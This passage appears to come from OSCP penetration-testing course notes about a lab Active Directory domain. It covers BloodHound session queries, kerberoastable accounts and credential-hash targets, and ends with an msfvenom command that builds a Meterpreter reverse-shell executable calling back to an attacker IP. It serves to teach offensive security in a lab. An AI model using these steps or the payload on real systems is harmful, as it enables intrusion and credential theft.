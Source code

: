 ```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

> Listing 56 - Custom query to display all active sessions

Now, let's enter the custom query in BloodHound:

![[OffSec/OSCP/z. images/9a04f4d7dd915e7255bde810f5edff15_MD5.jpg]]

Figure 13: Display all active sessions in the BEYOND.COM domain

Figure 13 shows that our query resulted in three active sessions. As expected, CLIENTWK1 has an active session with the user *marcus*.

Interestingly, the previously identified domain administrator account *beccy* has an active session on MAILSRV1. If we manage to get privileged access to this machine, we can potentially extract the NTLM hash for this user.

The user of the third active session is displayed as a SID. BloodHound uses this representation of a principal when the domain identifier of the SID is from a local machine. For this session, this means that the local *Administrator* (indicated by RID 500) has an active session on INTERNALSRV1.

Our next step is to identify all *kerberoastable* users in the domain. To do so, we can use the *List all Kerberoastable Accounts* pre-built query in BloodHound.

![[OffSec/OSCP/z. images/bf1c1b51d3ef04e3f80c341f788342aa_MD5.jpg]]

Figure 14: Display all kerberoastable user accounts in the BEYOND.COM domain

Figure 14 shows that apart from *krbtgt*, *daniela* is also kerberoastable.

The *krbtgt* user account acts as service account for the [*Key Distribution Center*](https://en.wikipedia.org/wiki/Key_distribution_center) (KDC) and is responsible for encrypting and signing Kerberos tickets. When a domain is set up, a password is randomly generated for this user account, making a password attack unfeasible. Therefore, we can often safely skip *krbtgt* in the context of Kerberoasting.

Let's examine the SPN for *daniela* in BloodHound via the *Node Info* menu by clicking on the node.

![[OffSec/OSCP/z. images/4a4280e25142299351ae4e49a00f4960_MD5.jpg]]

Figure 15: SPN of the user account daniela

Figure 15 shows the mapped SPN **http/internalsrv1.beyond.com**. Based on this, we can assume that a web server is running on INTERNALSRV1. Once we've performed Kerberoasting and potentially obtained the plaintext password for *daniela*, we may use it to access INTERNALSRV1.

However, as we have stated before, finding an actionable vector should not interrupt our enumeration process. We should collect all information, prioritize it, and then perform potential attacks.

Therefore, let's set up a SOCKS5 proxy to perform network enumeration via Nmap and CrackMapExec to identify accessible services, open ports, and SMB settings.

First, we'll create a staged Meterpreter TCP reverse shell as an executable file with **msfvenom**. Since we can reuse the binary throughout the domain, we can store it in **/home/kali/beyond**.

```
kali@kali:~/beyond$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: met.exe
```

